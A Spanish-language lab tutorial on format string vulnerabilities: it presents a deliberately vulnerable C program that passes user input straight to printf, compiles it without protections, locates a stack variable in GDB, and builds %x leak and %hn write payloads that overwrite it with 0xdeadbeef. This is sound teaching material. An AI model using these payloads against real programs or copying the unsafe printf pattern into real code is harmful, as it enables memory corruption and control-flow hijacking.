

Vulnerabilidad Format String.
%x Hexadecimal
%s Cadena de caracteres
%p Puntero a direcciones
%d Integer
%u Unsigned Integer
%o Octal
%f Flotante
%c Caracter
n imprimir
Vamos a compilar este código sin algunas protecciones
#include
#include
#include
int main(int argc, char *argv[])
{
int acceso = 0x11223344;
char buffer[32];
fgets(buffer, 32, stdin);
printf(buffer);
if(acceso == 0xdeadbeef) {
printf("lograste la vulnerabilidad de format string\n");
return 0;
} else {
printf("Vuelve a intentar...\n");
exit(EXIT_FAILURE);
}
}
gcc -m32 -z execstack -z norelro -fno-stack-protector -o format1 format1.c
Vamos a aprender a manipular un printf con ciertos formatos específicos utilizando la tabla de arriba para aprender sobre las vulnerabilidades que pueden presentarse y la importancia de definir bien los formatos de cadena, en este caso será uno sencillo con printf.
El objetivo de la prueba es cambiar la variable "acceso" que tiene un valor de 0x11223344 y colocarle 0xdeadbeef y para eso tenemos que sobrescribir el stack.
También lo hago para recordar ciertas cosas que suelo olvidar xD.
Vamos empezar buscando lo que hay que hacer en el código.
Como podemos observar, necesitamos sobrescribir acceso, pero para eso necesitamos saber donde está usando GDB.
Colocamos un break en main, ejecutamos y vamos avanzando con "nexti" hasta agregar 0x11223344 al stack.
Ahora vamos a revisar el stack, se puede colocar un "x/40wx $esp" y si están utilizando gdb-peda pueden usar un segundo break más adelante o seguir avanzando con "nexti" y utilizar telescope para ver el stack, colocaré tres formas.
Como se puede ver, las dos primeras reflejan que "0x11223344" se encuentra en la dirección 0xffffd22c.
La tercera es buscar el registro donde se guardó el valor, en este caso "mov DWORD PTR [ebp-0xc],0x11223344" → “x/x $ebp-0xc” = 0xffffd22c → 0x11223344"
Ok, ya tenemos la dirección a la que tenemos que llegar, ahora vamos a ver como lograremos llegar y de que forma puede haber un printf con vulnerabilidad, tal vez haga uno con GOT que puede ser otra opción.
Hay razones por las que siempre hay que definir un printf bien con un formato, veamos.
Vemos que si le damos un formato al printf de "printf(buffer)", podemos ver ciertas direcciones al utilizar el formato de punteros.
Vamos a escribir 4 A's y un formato, usaremos %x para ver si nos muestra esas A's y en donde están.
Colocamos 10 "%x" y podemos ver que nos muestra donde están esas A's, ya que recordemos que en hexadecimal "A" es "0x41", también lo podemos usar con "%p" para mostrar la dirección donde se encuentran las A's.
Eso significa que con 7 es más que suficiente, pero hay una manera de hacer lo mismo más sencillo, para nos tener que escribir varias veces el formato %x y es utilizando "$", veamos.
AAAA%7$x -> esto es equivalente a AAAA%x%x%x%x%x%x%x, pero de esta manera solo se imprime lo que buscamos.
Ok, ya tenemos que escribir y donde se coloca eso, ahora hay que decirle que en esa dirección sobrescriba "0x11223344" con "0xdeadbeef", ¿y cómo lo hacemos?.
NOTA: mi computadora tuvo que reiniciarse y cambio la dirección anterior, ahora es 0xffffd23c
Debemos hacer que "0xdeadbeef" se sobrescriba dentro de la dirección 0xffffd23c que tiene "0x11223344", hagamos un prueba para ver si se sobrescribe utilizando python.
Ok, ahora con gdb, vamos a hacer lo mismo pero pongamos la dirección 0xffffd23c, pero aquí necesitamos escribir en esos bytes usando "n" y pongamos unos break en el printf y después del printf de "0x11223344" para ver si se sobrescribe.
$(python2 -c 'print "\x3c\xd2\xff\xff" + "%7$n"')
Podemos ver que al no decirle que sobrescribir solo se imprime la cantidad de bytes a escribir, veamos que pasa si ponemos más.
Ahora dice que son 8 bytes, ahí ya podemos ver que podemos sobrescribir y ahí colocaremos "0xdeadbeef", pero recordemos que acceso es un integer, así que debemos colocarlo en formato decimal, vamos a convertirlo "0xdeadbeff = 3735928559", pero no podemos poner esa numeración enorme de iteraciones, así que vamos a partir a la mitad "0xdead" + "0xbeef"
Recordemos que el stack es una pila que funciona mediante HIGH Address y LOW Address, lo que significa que "0xdead" sería high y "0xbeef" sería low.
Vamos a ponerlo con imágenes para que sea mejor explicativo lo que se acaba de mencionar.
Vamos a escribir "beef" -> "48879" - "4" = "48875", 4 son los bytes que acabamos de mencionar que son las direcciones "\x3c\xd2\xff\xff" y lo haremos escribiendo los decimales en formato hexadecimal + los 7 espacios de relleno, pero solo necesitamos 2 bytes que sería "0xdeadbeef" -> 4bytes, "0xdead" -> "0xbeef" -> 2bytes cada uno, para pasar de 4 a 2 debemos utilizar "h" y "n" para sobrescribir, "%7$hn".
$(python2 -c 'print "\x3c\xd2\xff\xff" + "%48875x%7$hn"')
Listo ya tenemos beef en low, vamos por dead en high, para esto vamos a cambiar "4" por los "8" bytes que ahora necesitaremos... "dead" -> "57005" a esto le restamos lo que equivale beef -> "57005 - 48871 = 8126", en el anterior solo usamos 2 de los 4 bytes, vamos a usar los otros 2 bytes de los 4 y para eso ahora será "%8$hn".
Nota importante: no olvidar que usamos "48875" donde quitamos solo los 4 primeros bytes, pero ahora debemos volver a calcular y quitar los 8 bytes y por eso ahora es "48879 - 8 = 48871"
$(python2 -c 'print "\x3c\xd2\xff\xff\x3e\xd2\xff\xff" + "%48871x%7$hn%8126x%8$hn"')
Vamos a analizar esto, low = "\x3c\xd2\xff\xff", high es = "\x3e\xd2\xff\xff" -> low es: "%48871x%7$hn" y high es:"%8126x%8$hn"
Lo ejecutamos y veamos que pasa...
Se logró el objetivo de encontrar la vulnerabilidad del formato.